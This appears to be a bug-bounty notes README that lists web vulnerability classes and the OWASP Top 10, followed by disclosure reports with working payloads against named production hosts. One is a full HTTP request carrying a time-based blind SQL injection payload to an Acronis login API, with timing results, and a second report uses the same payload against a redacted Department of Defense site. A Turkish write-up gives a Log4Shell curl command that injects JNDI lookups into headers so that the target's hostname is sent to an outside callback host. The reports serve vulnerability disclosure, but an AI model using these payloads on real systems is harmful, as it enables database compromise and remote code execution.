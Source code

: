 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection

```
A1: Injection

A2: Broken Authentication

A3: Sensitive Data Exposure

A4: XML External Entities (XXE)

A5: Broken Access Control

A6: Security Misconfiguration

A7: Cross-Site Scripting (XSS)

A8: Insecure Deserialization

A9: Using Components with Known Vulnerabilities

A10: Insufficient Logging & Monitoring
```
# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions

___________________________________


______________________________________

# Arbitrary Code Execution on ng01-cloud.acronis.com

Bir gün, uygulamanın içinde bir güvenlik açığı olduğunu fark ettim. Bu güvenlik açığı, internette "Log4Shell" olarak bilinen ve ciddi bir tehdit oluşturan bir problem. Log4j adlı bir yazılım kütüphanesi, internetten gelen verileri işlerken bazı hatalar yapıyor ve bu hatalar, kötü niyetli bir kişinin uzaktan, sanki bilgisayarın başında oturuyormuş gibi komutlar çalıştırmasına olanak tanıyor. Bu problem "CVE-2021-44228" koduyla tanımlanmış.

Neler Yaptım:

Bu açığı test etmek için bir yöntem buldum. Bu yöntemde Burp Collaborator adlı bir aracı kullandım. Bu araç, uygulamanın internet üzerinden verdiği tepkileri izlememi sağlıyor.

İlk olarak, bu aracı kullanarak bir komut oluşturdum. Bu komut, belirli bir internet adresine (COLLABORATOR_URL) bir istek gönderiyor. Komutu şu şekilde yazdım:

```bash
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
```
https://ng01-cloud.acronis.com
Bu Komut Ne Yapar?

Bu komut, belirli başlıklar (User-agent, X-Forwarded-For, Referer) kullanarak uygulamaya istek gönderiyor. Başlıkların içindeki ${jndi:ldap://...} kısmı ise, uygulamanın içindeki Log4j kütüphanesine "Bir internet adresine git ve oradan bazı bilgiler al" diyor.

Eğer bu açığın olduğu bir uygulamaya bu komutu gönderirseniz, Log4j kütüphanesi bu isteği işlerken benim belirttiğim internet adresine bir bağlantı yapmaya çalışıyor. Bu bağlantı başarılı olursa, bu uygulamanın zafiyeti olduğunu kanıtlamış oluyorum.

Sonuç:

Uygulama bana kendi sistem adını (hostname) gönderdi. Bu, uygulamanın dışarıdan gelen bu tehlikeli isteği işlediğini ve sonuç olarak sistemde uzaktan komut çalıştırmanın mümkün olduğunu gösterdi.

Etkisi:

Bu açıktan faydalanan kötü niyetli biri, uygulamaya uzaktan komutlar gönderip, bu komutları sistem üzerinde çalıştırabilir. Bu, sistemin tamamen ele geçirilmesine kadar varabilecek ciddi güvenlik riskleri oluşturur.


